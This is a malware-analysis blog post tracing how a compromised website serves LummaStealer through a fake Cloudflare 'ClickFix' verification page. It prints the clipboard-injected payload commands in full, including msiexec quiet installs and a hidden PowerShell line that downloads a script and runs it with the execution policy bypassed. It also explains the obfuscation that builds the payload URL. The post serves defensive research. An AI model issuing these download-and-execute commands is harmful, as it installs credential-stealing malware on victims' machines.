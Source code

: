 ```yaml
---
layout: post
title:  "LummaStealer - ClickFix MSI Installer Payload"
date:   2025-06-16 21:00:00 +1000
categories: malware analysis
---
```


<style>
  body { font-size: 15px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview - LummaStealer Malware Analysis (27th July 2025)

Full malware analysis on LummaStealer on a compromised website. This one took me some time as the malware is super impressive.

LummaStealer has lots of different variants. Therefore, malware analysis found online varies significantly. A compromised website I've been monitoring that has pushed three different samples of LummaStealer to it's victims in the past week. Furthermore, each time you query the stage one domain the network IOCs change. So, it's super neat. One cool pickup that does seem consistent is. If your host in running in Russian, the malware terminates. Make of that what you like.

### Compromised Website ClickFix

I've booted up my Windows 10 VM so we can whack this through and see what happens.

Here is the Clickfix prompt on load. First, lets see how this got here? Where from? I've checked the Network tab in dev tools and found two suspicious domains that my browser has received HTTP requests from as a result of visiting this website
- api[.]brainbotfilebeatsave[.]com
- fullporner[.]com

![Stage 1](/images/cloudflare_stage1.PNG)
![Stage 2](/images/cloudflare_stage2.PNG)

So why are we sending GET requests to brainbot by visiting the website and the Clickfix prompt above? This little iframe here.

![BrainBot iframe](/images/brainbot_iframe.PNG)

We can see we sent a GET request to brainbot and as a response received some HTML/CSS/JS. The IP of brainbot is 104.21.48.1. Which is a CloudFlare proxy IP. Side note but an important one - adversaries seem to use cloudflare IPs to mask the IPs of their webservers quite frequently. Given that this attack uses a cloudflare clickfix prompt its more believable for level 0 soc analysts triaging this alert. 

![First GET Request to Brainbot](/images/get_brainbot.PNG)

Secondly we can see a GET request fullporner[.]com directly after sending a GET request to brainbot. 

![First GET Request to FullPorner](/images/fullporner_referral.PNG)

Let's inspect the script brainbot sent to us after our GET request.

First up we can see functions for browser fingerprinting and IP checking. Actually, what's really cool is the .js makes you query IP config sites yourself! 

![IP query](/images/ip_query.PNG)

Now we have the .html, .css and a bit of .js that displays the fake verification page and captures the results. 

![Cloudflare Clickfix](/images/cloudflare_html.PNG)

At the start of the .html we have an iFrame to fullporner[.]com but it doesn't look like it does anything? Now I'm almost certain this for some sort of decoy. I thought maybe brainbot was retrieving suspicious stuff from fullporner[.]com but nope. I was wrong. I guess if a SOC analyst looks at this alert they might think it's some dodgy porn page, rather than a LummaStealer loader. I'm not too sure, this is hilarious.

![iFrame](/images/full_porner.PNG)

Ok now lets get into the good stuff. 

![sjsh function](/images/sjsh_malicious_function.PNG)

We can see the function (sjsh) sends a GET request to an unknown domain. When loaded, it copies the constant 'command' to the users clipboard. Now the spuds have commented out earlier payloads. So we can infact see four different payloads! Interesting there is both a powershell and multiple msiexec payloads. This goes back to my comment earlier, there is so many different payloads for Lumma. Anyway, lets have a look at what some of the flags mean in these payload commands. 
1. ```const command = `msiexec /qn /i ${gotourl};```
- (/i) = tells msiexec to install the following package
- (/qn) = quiet mode with no UI for install
2. ```//const command = `msiexec KLSK=1101 /package ${gotourl} /promptrestart LAPBO=189 /quiet NIANS=299;```
3. ```const command = `msiexec SKSIA=1401 /package ${gotourl} /promptrestart LAPBOS=119 /passive NIANS=299;```
- (/package) = specifies .msi to install (same as /i)
- (/promptrestart) = restarts prompt at end if needed
- (/quiet) = quiet mode install
- KLSK, LAPBO, NIANS. These aren't msiexec flags. They could potentially define custom properties in the .msi file.
4. ```//const command = `powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f"`;```
- (-wh h) = WindowStyle and hidden
- (-c) = command
- ($f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1') = Creates random .ps1 script in Temp directory
- (curl ${gotourl} -o $f) = Downloads file from URL
- (-ep Bypass) = disables execution policy
- (-f) = runs file

Now we can see the payload, but no domains. So lets check out the variable ```gotourl``` is calculated because I reckon it'll give us the domain. It looks heavily obfuscated. Here is a snippet of the .js of it. Here is a step by step breakdown of it.
![Go To URL](/images/go_to_url.PNG)

1. Function takes the 'jsh' value when the function is called
2. Sends a GET request to brainbot using the following URL parameter ```/?jsc=<jsh>&f=<f>&t=<rt>```
3. If the request is successful (200) we receive a base64 string.
- ```let gotourl = hex2a(strrev(atob(hex2a(strrev(atob(xhr.response))))))```
- B64 decodes raw response (atob(xhr.response))
- Reverses the string (strrev(atob_returned_value))
- Converts string to ASCII (hex2a(strrev_returned_value))
- Now repeat again! Because there are 6 layers!
4. Now we have our domain ```window.gotourl = URL```

So now we know how this works. Lets try grab this domain. After clicking the tick box, I send a GET request to brainbot with the jsc flag. This contains all the details brainbot needs to shoot me back a domain.

![encoded jsc](/images/jsc_obfuscate.PNG)

Now this is what brainbot returned. Also side note you can see the requests to the IP check domains on the side as well.

![brainbot base64 response](/images/brainbot_response.PNG)

Lastly, lets deobfuscate. My friend ChatGPT will assist here.

![gospel output](/images/payload_url.PNG)

Plot twist! You have got to be joking. So essentially what this means is. LummaStealer is getting it's payloads from FullPorner. Now becuase it's .php we can't view it in a browser. 

When I go to paste the command in run I get the domain 'veriqloudx' not 'fullporner'. Anyway, veriq was created two days ago. Pretty neat, good rep on VT. Nice.
![VT Veriqloudx](/images/veriq_rep.PNG)

### LummaStealer on my VM

Alright now we know what the server side is getting up to. Lets run one of these payloads in a VM and dig into what it's doing.

I'm going to go with:
- ```powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f```

LummaStealer as per previous writeups does VM/Sandboxing detection capabilities. So this may be difficult.

Anyway, here is my setup for running this.
- Windows 10 VM (Snapshotted before malware detonation)
- WireShark
- Procmon
- Process Explorer
- API Monitor
- Pe Bear

The Lumma infection chain tends to work like this.
1. Downloads payload
2. Pulls C compiler and creates malicious .cmdline files
3. Runs these files in memory
4. Creates persistence
5. Scans browsers and other locations for passwords and host information
6. Exfilitrates initial data
7. Downloads and executes beacon